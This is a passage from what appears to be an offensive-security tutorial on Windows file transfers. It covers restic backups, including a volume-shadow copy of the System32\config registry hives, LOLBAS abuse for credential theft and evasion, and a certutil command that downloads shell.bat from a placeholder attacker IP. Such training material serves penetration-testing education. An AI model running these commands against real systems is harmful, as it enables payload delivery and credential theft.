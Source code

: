 Restic is a modern backup program that can back up files in Linux, BSD, Mac, and Windows. To start working with restic, we must create a repository (the directory where backups will be stored). Restic checks if the environment variable RESTIC_PASSWORD is set and uses its content as the password for the repository. If this variable is not set, it will ask for the password to initialize the repository and for any other operation in this repository. We will use restic 0.13.1 and back up the repository C:\xampp\htdocs\webapp in E:\restic\ directory. To download the latest version of restic, visit https://github.com/restic/restic/releases/latest. On our target machine, restic is located at C:\Windows\System32\restic.exe.
````
# restic - Initialize Backup Directory
> mkdir E:\restic2; restic.exe -r E:\restic2 init

# restic - Back up a Directory
> $env:RESTIC_PASSWORD = 'Password'
> restic.exe -r E:\restic2\ backup C:\SampleFolder

# restic - Back up a Directory with VSS
> restic.exe -r E:\restic2\ backup C:\Windows\System32\config --use-fs-snapshot

# restic - Check Backups Saved in a Repository
> restic.exe -r E:\restic2\ snapshots

# restic - Restore a Backup with ID
> restic.exe -r E:\restic2\ restore <ID> --target C:\Restore
````

## Miscellaneous Techniques

**Living Off The Land Binaries and Scripts (LOLBAS)**

The LOLBAS project documents binaries, scripts, and libraries that can be used for "living off the land" techniques on Windows systems. Each of these binaries, scripts and libraries is a Microsoft-signed file that is either native to the operating system or can be downloaded directly from Microsoft and have unexpected functionality useful to an attacker. Some interesting functionality may include:

|Code execution	|Code compilation|	File transfers|
|---------------|-----------------|----------------|
|Persistence|	UAC bypass|	Credential theft|
|Dumping process memory|	Keylogging	Evasion|
|DLL hijacking|

````
# Transferring File with Certutil
> certutil.exe -urlcache -split -f http://<Our_IP>:8080/shell.bat shell.bat

# Encoding File with Certutil
> certutil -encode file1 encodedfile

# Decoding File with Certutil
> certutil -decode encodedfile file2
````
